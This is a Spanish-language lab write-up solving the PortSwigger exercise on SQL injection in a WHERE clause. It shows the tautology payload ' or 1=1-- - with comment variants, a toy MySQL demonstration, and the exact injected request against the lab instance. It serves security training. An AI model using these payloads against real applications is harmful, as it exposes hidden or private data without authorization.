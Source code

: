 # `Lab`: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:

- Esta en la query original:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

- Y al final se termina "rompiendo" así _(quitando esas condicionales muahaha!)_:

````sql
SELECT * FROM products WHERE category = 'Gifts' or 1 = 1 -- AND released = 1 (soy la noche :P)
````

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)


---

### Ejemplo con lab:

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: 
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `' or 1 = 1 --` o`' or 1 = 1-- -` o `' or 1 = 1-- -'` o `' or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:
- Es decir, con este payload le estoy pidiendo en la query que regrese el `id=5` (osea solo `Ff0ur`) o todo donde sea `1=1` (osea `true`)... osea todo!!! porque todo es true!!!!!! muahaha!! ;)

````sql
# Ejemplo Final: (ya con SQLi)
select id,username from users where subscription = '1' or 1 = 1;-- - and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````

- OJO! en consola de `mysql` se deben poner los `;`, pero en web no.

## Solución:

1. Importante ir a un directorio donde sea vulnerable _(en este caso son las secciones)_

2. Query que usé

````sql
'or 1=1-- -
````
````http
https://0a83007b03adf85d811702c2004f0064.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

## Recursos

- [SQLi - #1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://www.youtube.com/watch?v=_rCg_-gsQOA)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/2d654adb-8e7f-41eb-b8fc-84c9935c3e83)





